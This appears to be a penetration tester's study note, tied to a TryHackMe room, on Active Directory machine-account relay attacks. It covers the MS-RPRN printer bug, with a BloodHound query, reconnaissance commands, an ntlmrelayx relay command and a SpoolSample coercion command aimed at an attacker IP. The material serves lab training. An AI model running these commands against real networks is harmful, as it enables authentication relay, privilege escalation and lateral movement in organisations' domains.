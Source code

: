 **Beware: Some of these attacks can be unstable, cause crashes or without callback.**

All Windows hosts have a machine account and their passwords are uncrackable, by default, they are 120 characters (UTF16) long and are automatically rotated every 30 days. Within Active Directory, machine account are used for services across the scope of which other organisation units has access to that service. DCs use their machine accounts to synchronise AD updates and changes. Machine accounts are used for authentication to the AD Certificate Service when you request a certificate on behalf of the host machine you make the request from. 

Due to tiering  of privileges as higher tiers manage ever larger group of networked machines exceptional case in AD configuration occurs frequently where one machine has administrative permissions over a host have been granted to another host. This is normal it is expected functionality as domain controllers or SQL clusters that must be synchronised.

## Attack Path

First identify cases where a machine account has administrative access over another machine - [[Neo4j-And-Bloodhound-Guide]]
Bloodhound query - `Click -> "Create Custom Query" in the Analysis tab in Bloodhound`
```js
MATCH p=(c1:Computer)-[r1:MemberOf*1..]->(g:Group)-[r2:AdminTo]->(n:Computer) RETURN p
```


## That printer bug...

*It's not a bug, it's a feature - Microsoft.*

The printer bug is a "feature" of the MS-RPRN protocol (PrintSystem Remote Protocol), which allows a domain user to remotely force a target host running the Print Spooler service to authenticate to an arbitrary IP address.

-   A Machine Account administrative privileges 
-   A valid set of AD account credentials.
-   Network connectivity to the target's SMB service.
-   The target host must be running the Print Spooler service.
-   The hosts must not have SMB signing enforced.

```powershell
GWMI Win32_Printer -Computer $printer_name.$domain # verify printer is running
# If access denied attempt the follow
Get-PrinterPort -ComputerName $printer_name.$domain # backup version of the above command
# Beware viewing port is being cracked down by Microsoft so maybe the blue team is already there..
# nmap to see if smb signing is enforced 
nmap --script=smb2-security-mode -p445 $domain

```

**Beware: This attack can be unstable. Abusing the Print Spooler service may cause it to crash, and a callback is not always guaranteed.**

[SpoolSample](https://github.com/leechristensen/SpoolSample) is a C# exploit to exploit the authencation relay. First setup [[Impacket-Cheatsheet]] - `ntlmrelayx`
```bash
ntlmrelayx -smbsupport -t smb://"Machine Account administrative privileges host IP goes here"
-debug # -c 'dos commands go here'
```
If we specified the hostname of `"Machine Account administrative privileges host"` the hsot could request that we use Kerberos authenication instead of NTLM. Now coerce target to authenicate to us.
```powershell
SpoolSample.exe $target.$domain "Attacker IP"
```

## References

[THM Exploiting AD Room](https://tryhackme.com/room/exploitingad)